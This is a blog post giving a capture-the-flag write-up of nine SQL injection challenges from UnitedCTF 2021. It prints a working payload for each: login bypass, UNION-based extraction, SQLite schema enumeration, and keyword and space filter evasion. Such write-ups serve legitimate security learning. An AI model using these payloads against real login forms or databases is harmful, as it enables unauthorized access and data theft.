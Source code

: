 ```yaml
---
layout: post
title: "UnitedCTF 2021 part 2: SQL injection"
date: 2021-10-09
---
```


I really liked this track, there was nine (relatively) easy challenges on SQL injection. There was a thorough explanation on how to do the first challenge and it allowed everyone to catch up and brush up their skills. Since I've already talked about [SQL injection in a previous blog](/will-hack-for-coffee/_posts/2021-03-15-full-database-exfiltration-oneliner.md) I'll skip right to the chase.

## SQLi 1: What's SQLi?

Each challenge involved a basic login page. Using Burp Suite helped me adjust my payload quickly and offered basic documentation.

![SQLi login](/will-hack-for-coffee/assets/images/unitedctf2021/sqli-login.png)

For the username field I used admin (as with all others SQLi challenges). For the password field I used this payload to get the first flag:
````
password" or 1=1 --
````
Note: I retried the injection on docker and I had to replace the " by ', so you may have to adjust your payload depending on your system. Which is weird since I tought Docker would make it system agnostic, oh well.

## SQLi 2: Only one

The way the challenges were designed you didn't have reflected injection in the page, if you had the correct payload you were forwarded to another page that had the flag. Brute forcing was not allowed but tools like sqlmap probably would not have worked anyway. We were told that the code validated that it returned only one result but that the admin still was the first in the table. So I used this payload instead:
````
password" or id=1 --
````

## SQLi 3: Maybe Burp can find it?

For the next challenge the admin was not in the first row so I used Burp intruder tab and specified id as my payload variable:

![burp-intruder](/will-hack-for-coffee/assets/images/unitedctf2021/burp-intruder.png)

Turned out his id was 2... xD

## SQLi 4: Union attack

There was then a series of challenge based on some variation that needed to use [union attack](https://portswigger.net/web-security/sql-injection/union-attacks). In this challenge the flag is in the flag table in the flag column. First, I found the number of column returned by the table using different column number, this payload didn't provoke errors:

````
" order by 3 --
````
Then I crafted this highly elaborated payload:
````
" UNION SELECT "","",flag from flag -- 
````

## SQLi 5: No union

This challenge is identical to the previous one except the key word UNION is filtered. This one made me smile because I already had solved something similar evading XSS filter. My payload from the previous challenge would be reconstructed after the filter would be applied:
````
" UNUNIONION SELECT "","",flag from flag -- 
```` 

## SQLi 6: What table?

Similar challenge except there is no filter and the table name is unknown. It was mentioned in the first challenge of the series that the database was SQLite3. That is relevant here because we will have to query the table name using the database schema which differs depending on the database. After a little bit of research I crafted this payload to find the name of the table:
````
" UNION SELECT "","",name from sqlite_master where sql like "%flag%" --
````
![table-name](/will-hack-for-coffee/assets/images/unitedctf2021/table-name.png)

With this info I found the flag like so:

````
 " UNION SELECT "","",flag from K953U0Ty4V --
````

## SQLi 7: Where the flag?

For this challenge neither the table or column name is known. So first:

````
" UNION SELECT "","",sql from sqlite_master --
...
CREATE TABLE "Ja93MjakS" (
            "id" INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL,
            "Dab93JkA" VARCHAR)
...
````
Resulting in this payload:
````
" UNION SELECT "","",Dab93JkA from Ja93MjakS --
````

## SQLi 8: No flag

So there is a secret table with the column flag but there is a filter on the word flag. First, I needed to find the table name:
````
" UNION SELECT "","",sql from sqlite_master where sql like "%fla%" --
...
CREATE TABLE "cKretTblName" (
            "id" INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL,
            "flag" VARCHAR
          )
...
````
So after a couple of trials and errors I found that payload. My union attack returns three columns and that table has only two columns so I returned an empty string instead.
````
" UNION SELECT "",* from cKretTblName --
````
 Would it really work in real life? I don't know but I got my flag.

 ## SQLi 9: No spaces for you

 The good news is that the flag is in the flag table within the flag column. As it was not ridiculous enough the DBA now filters all spaces. I've tried a lot of things for this one but turns out you can use comments instead of spaces:
 ````
"union/*comments*/select/*_*/"","",flag/*_*/from/*_*/flag/*more_comments*/--
 ````
So that was it for the SQL injection track. Next up ReDoS!

